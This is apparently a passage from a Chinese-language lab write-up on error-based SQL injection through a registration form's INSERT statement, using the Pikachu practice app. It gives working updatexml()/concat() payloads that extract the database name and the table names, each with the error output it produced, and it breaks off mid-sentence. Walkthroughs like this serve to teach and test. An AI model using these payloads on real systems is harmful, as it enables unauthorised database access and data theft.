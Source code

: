 ## insert / update 注入

详细请参考：

* https://www.modb.pro/db/494321
* https://blog.51cto.com/u_11908275/6943535

```sql
# 其中 '--+ 的 URL 编码结果为： %27%2d%2d%2b，之所以这样做，是因为这关是 POST 请求，必须要提前进行 URL 编码！！！
username=hackname%27%2d%2d%2b&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
```

```
# 页面显示结果：
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'hackpwd'),'hacksex','hackphone','hackaddress01','hackaddress02')' at line 1
```

===> 闭合符号为 `'`，此处存在 sql 注入！又因为页面用户注册这个操作属于是 sql insert 中插入数据的操作，故不能使用联合注入，盲注，建议采用错误注入法，因为通过执行上述sql，我们发现页面的确会抛出 sql 错误：

1. 获取数据库名称：

   ```sql
   username=hackname' and updatexml(1,concat(0x7e,(database()),0x7e),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```

   ```
   网页页面显示：XPATH syntax error: '~pikachu~'
   ```

   注：payload `' and updatexml(1,concat(0x7e,(database()),0x7e),1) or '` 中之所以在尾部加入 `or '`，是为了闭合多余的单引号，举个例子吧：

   ```sql
   insert into member(username, password) value ('hack', 'hackpawd');
   ```

   ```sql
   insert into member(username, password) value ('hack' and updatexml(1,concat(0x7e,(database()),0x7e),1) or '', 'hackpawd');
   ```

2. 获取所有数据表名称：

   ```sql
   username=hackname' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```

   ```
   网页页面显示：XPATH syntax error: '~httpinfo,member,message,users,x'
   ```

   上述 payload 也可以是（不使用 `concat()` 函数）：
